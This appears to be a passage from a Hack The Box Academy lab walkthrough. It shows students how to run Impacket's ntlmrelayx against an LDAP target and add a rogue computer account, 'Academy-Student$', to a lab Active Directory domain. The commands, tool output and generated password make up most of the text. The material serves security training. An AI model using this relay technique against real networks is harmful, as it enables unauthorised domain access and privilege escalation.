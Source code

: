 ```shell
echo "ldap://172.16.117.3" > target.txt
cat target.txt
```

```shell-session
htb-student@ubuntu:~$ echo "ldap://172.16.117.3" > target.txt
htb-student@ubuntu:~$ cat target.txt 
ldap://172.16.117.3
```

Once they have created the `target.txt` file containing the host, students will have to start `ntlmrelayx` as the `root` user or use `sudo`, with the `-tf` target file option, and specifying the `target.txt` file, `-smb2support` option providing `SMBv2` support for hosts that are requiring it, `--no-da` option to not attempt to add a Domain Admin, `--no-acl` option to disable ACL attacks, and the `--add-computer` option followed by a computer name of choice.

Code: shell

```shell
sudo ntlmrelayx.py -tf target.txt -smb2support --no-da --no-acl --add-computer "Academy-Student"
```

```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -tf target.txt -smb2support --no-da --no-acl --add-computer "Academy-Student"
[sudo] password for htb-student: 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

After a while, students will notice that a relayed authentication was able to create a fake computer on the domain controller named `Academy-Student$` with a randomly generated password.

```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -tf target.txt -smb2support --no-da --no-acl --add-computer "Academy-Student"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

<SNIP>
[*] Attempting to create computer in: CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] Adding new computer with username: Academy-Student$ and password: >ld/b:k4ie{T7i0 result: OK
```
